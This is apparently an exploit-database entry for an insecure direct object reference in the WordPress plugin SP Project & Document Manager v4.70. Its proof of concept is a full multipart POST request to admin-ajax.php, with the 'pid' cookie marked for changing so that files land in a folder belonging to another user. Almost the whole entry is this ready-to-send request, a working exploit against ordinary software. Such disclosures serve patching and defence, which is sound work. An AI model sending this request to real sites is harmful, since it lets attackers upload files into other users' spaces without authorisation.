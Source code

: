 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to upload files in folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...

Cookie: ...; pid=1(CHANGE HERE)
Connection: close

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="file[]"; filename="IMG_0628.PNG"
Content-Type: image/png

...

------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="action"

sp_file_upload_callback
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="uid"

2
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="cdm_upload_file_field"

f52aada0f5
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="_wp_http_referer"

/sppage
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="dlg-upload-name"

img
------WebKitFormBoundaryX4YnPgSA4oPHlNjv
Content-Disposition: form-data; name="dlg-upload-notes"

hello
------WebKitFormBoundaryX4YnPgSA4oPHlNjv--

```
